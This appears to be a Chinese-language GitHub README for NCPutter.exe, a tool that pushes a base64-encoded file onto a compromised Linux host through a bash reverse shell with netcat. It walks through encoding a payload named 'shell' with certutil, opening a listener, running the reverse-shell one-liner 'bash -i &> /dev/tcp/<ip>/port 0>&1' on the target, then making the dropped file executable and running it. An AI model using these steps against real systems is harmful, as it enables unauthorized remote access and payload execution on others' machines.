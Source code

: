 NCPutter.exe，用来再只有bash反弹shell的w情况下上传文件至目标主机,需要与nc.exe配合使用.
用法:
1）首先将待发送的文件base64编码,推荐使用windows下自带的certutil.exe工具,例如我要上传至目标linux的文件为shell，
则先使用certutil.exe将shell编码：certutil -encode shell shell_base64,得到shell_base64文件，
2）再用文本编辑器（例如notepad++）打开shell_base64,将第一行与最后一行删除，利用查找替换功能将所有的"\r\n"替换为空,即只让文件留下一行
3)使用我的NCPutter.exe，将它与nc.exe还有处理完毕的shell_base64文件放在同一目录下,执行命令：
    NCPutter -p port -f shell_base64,这里的port就是你的目标机bash shell反弹回来的端口,执行命令后，当出现：
    “If the remote linux bash has been connected to the local nc.exe,press any key.”时，表明本地nc已经打开监听，
    在目标linux中切换到任意可写目录下，执行反弹命令：
    bash -i &> /dev/tcp/你的ip/port 0>&1 
    在本地NCputter.exe窗口中按下任意键即开始传送数据。
4)传送完毕后，关闭NCPutter.exe,重新用nc连接远端反弹bash，在刚刚的目录下会产生result.txt与originalFile两个文件，originalFile即你要穿的原始文件shell，
    chmod u+x originalFileh后就可以运行它啦！
